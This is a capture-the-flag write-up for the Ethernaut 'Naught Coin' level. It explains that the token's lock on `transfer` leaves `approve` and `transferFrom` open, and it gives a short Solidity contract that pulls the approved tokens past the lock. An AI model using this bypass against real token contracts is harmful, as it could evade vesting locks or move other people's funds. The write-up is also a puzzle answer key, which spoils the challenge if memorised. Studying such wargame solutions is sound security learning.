 # [15. Naught Coin](https://ethernaut.openzeppelin.com/level/0x096bb5e93a204BfD701502EB6EF266a950217218)

Here we have a simple ERC-20 contract in our hands, that prevents us to `transfer` money to someone. However, this does not prevent us to `approve` that someone, and let them call `transferFrom` to take our money. That is precisely what we are going to do. We create and deploy a simple contract:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0; 

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/IERC20.sol";

contract NaughtWithdraw {
  function withdrawFrom(address _tokenAddr, address _from, uint _amount) public {
    bool success = IERC20(_tokenAddr).transferFrom(_from, address(this), _amount);
    require(success, "failed!");
  }
}
```

Then, we simply approve all our tokens to this address, and call `withdrawFrom` there with the respective parameters.
